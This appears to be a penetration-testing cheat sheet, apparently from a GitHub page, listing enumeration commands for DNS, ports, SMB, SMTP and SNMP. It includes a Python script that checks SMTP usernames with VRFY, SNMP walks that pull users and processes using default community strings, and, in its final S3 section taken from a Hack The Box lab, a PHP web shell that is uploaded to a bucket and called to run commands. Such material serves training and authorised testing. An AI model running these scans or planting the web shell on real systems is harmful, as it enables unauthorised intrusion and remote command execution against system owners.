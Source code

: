 ## **DNS Enumeration**

#### Custom
`for ip in $(cat list.txt); do host $ip.-host-.com; done`
#### Scan PTR records
`for ip in $(seq 200 254); do host -host-.$ip; done | grep -v "not found"`
#### Automated recon
`dnsrecon -d -host- -t std`
`dnsrecon -d -host- -D ~/list.txt -t brt`
`dnsenum`

### Sub-domains
`gobuster vhost -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://thetoppers.htb --append-domain`

#### Windows
`nslookup`

## **TCP/UDP Enumeration**

### Netcat - interesting ports

###### TCP
`nc -nvv -w 1 -z <host> <port-port>`
###### UDP
`nc -nv -u -z -w 1 <host> <port-port>

### Nmap sweep scans

#### Standard:
`nmap -sn <host>
 Ping sweep:
`nmap -v -sn <host> -oG ping-sweep.txt`
`grep Up ping-sweep.txt | cut -d " " -f 2`
#### TCP/UDP:
`nmap -p <port> <host> -oG web-sweep.txt`
`grep open web-sweep.txt | cut -d" " -f2`
#### OS fingerprinting
`sudo nmap -O <host> --osscan-guess` --quiet
`nmap -sT -A <host> --aggressive

#### Windows:
`Test-NetConnection -Port 445 <host>`

## **SMB Enumeration**

`sudo nbtscan -r <network>/24`
`nmap -v -p 139,445 --script smb-os-discovery <host>`
#### Windows
`net view \\dc01 /all`

## **SMTP Enumeration**

#### Verify user
`nc -nv <host> 25`
#### Verify if a user exists on the server 
`python3 smtp_verify.py <user> <host>` 

```python
#!/usr/bin/python
# smtp_verify.py
import socket
import sys

if len(sys.argv) != 3:
    print("Usage: vrfy.py <username> <target_ip>")
    sys.exit(0)

# Create a Socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

# Connect to the Server
ip = sys.argv[2]
connect = s.connect((ip,25))

# Receive the banner
banner = s.recv(1024)
print(banner)

# VRFY a user
user = (sys.argv[1]).encode()
s.send(b'VRFY ' + user + b'\r\n')
result = s.recv(1024)

print(result)
# Close the socket
```
#### Windows
`Test-NetConnection -Port 25 <host>`
`dism /online /Enable-Feature /FeatureName:TelnetClient` --client install
`telnet <host> 25`

## **SNMP Enumeration**

`sudo nmap -sU --open -p 161 192.168.50.1-254 -oG open-snmp.txt`

```bash
echo public > community
echo private >> community
echo manager >> community
for ip in $(seq 1 254); do echo <host>.$ip; done > ips
# Query MIB
onesixtyone -c community -i ips

<host> [public] Hardware: Intel64 Family 6 Model 79 Stepping 1 AT/AT
COMPATIBLE - Software: Windows Version 6.3 (Build 17763 Multiprocessor Free)
# Query info
snmpwalk -c public -v1 -t 10 <host>
# Query users
snmpwalk -c public -v1 <host> 1.3.6.1.4.1.77.1.2.25
# Query Processes
snmpwalk -c public -v1 <host> 1.3.6.1.2.1.25.4.2.1.2
# Query installed software
snmpwalk -c public -v1 <host> 1.3.6.1.2.1.25.6.3.1.2
# Query TCP listening ports
snmpwalk -c public -v1 <host> 1.3.6.1.2.1.6.13.1.3
```

## AWS Enumeration S3
```
# Check Auth
aws --endpoint=http://<host> s3 ls
# List
aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb
# Make shell
echo '<?php system($_GET["cmd"]); ?>' > shell.php
# Upload
aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb
```

	`http://<host>/shell.php?cmd=id`
	
